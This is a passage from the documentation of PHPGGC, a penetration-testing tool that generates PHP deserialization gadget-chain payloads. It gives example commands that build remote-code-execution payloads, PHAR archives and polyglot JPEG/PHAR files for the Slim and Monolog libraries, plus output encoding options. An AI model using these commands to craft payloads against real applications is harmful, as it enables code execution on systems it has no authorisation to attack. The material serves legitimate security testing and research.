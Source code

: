 You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## PHAR(GGC)

### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

### Examples

```
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```


## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.
